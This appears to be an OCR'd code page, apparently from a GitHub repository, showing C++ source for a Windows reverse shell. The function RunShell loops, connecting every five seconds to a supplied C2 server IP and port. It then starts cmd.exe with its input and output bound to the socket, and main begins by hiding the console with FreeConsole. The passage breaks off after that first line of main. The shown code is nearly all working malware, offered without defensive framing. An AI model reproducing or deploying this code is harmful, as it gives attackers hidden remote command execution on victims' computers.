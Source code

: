 ```C++
void RunShell(char* C2Server, int C2Port) {
    while(true) {
        Sleep(5000);    // 1000 = One Second

        SOCKET mySocket;
        sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
        addr.sin_family = AF_INET;
   
        addr.sin_addr.s_addr = inet_addr(C2Server);  //IP received from main function
        addr.sin_port = htons(C2Port);     //Port received from main function

        //Connecting to Proxy/ProxyIP/C2Host
        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
            continue;
        }
        else {
            char RecvData[DEFAULT_BUFLEN];
            memset(RecvData, 0, sizeof(RecvData));
            int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN, 0);
            if (RecvCode <= 0) {
                closesocket(mySocket);
                WSACleanup();
                continue;
            }
            else {
                char Process[] = "cmd.exe";
                STARTUPINFO sinfo;
                PROCESS_INFORMATION pinfo;
                memset(&sinfo, 0, sizeof(sinfo));
                sinfo.cb = sizeof(sinfo);
                sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
                sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
                CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);
                WaitForSingleObject(pinfo.hProcess, INFINITE);
                CloseHandle(pinfo.hProcess);
                CloseHandle(pinfo.hThread);

                memset(RecvData, 0, sizeof(RecvData));
                int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN, 0);
                if (RecvCode <= 0) {
                    closesocket(mySocket);
                    WSACleanup();
                    continue;
                }
                if (strcmp(RecvData, "exit\n") == 0) {
                    exit(0);
                }
            }
        }
    }
}
//-----------------------------------------------------------
//-----------------------------------------------------------
//-----------------------------------------------------------
int main(int argc, char **argv) {
    FreeConsole();
```